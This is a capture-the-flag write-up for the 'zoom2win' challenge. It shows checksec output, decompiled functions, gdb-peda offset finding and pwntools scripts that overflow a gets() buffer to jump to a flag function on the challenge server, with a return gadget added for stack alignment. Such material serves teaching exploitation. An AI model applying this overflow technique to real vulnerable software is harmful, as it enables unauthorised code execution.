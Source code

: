 # zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Analysis

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's a `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

## Exploit

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](zoom2win-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!

![](zoom2win-serverTry.png)

Wait what? Sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in the main function and put it after padding.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D
![](zoom2win.png)

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
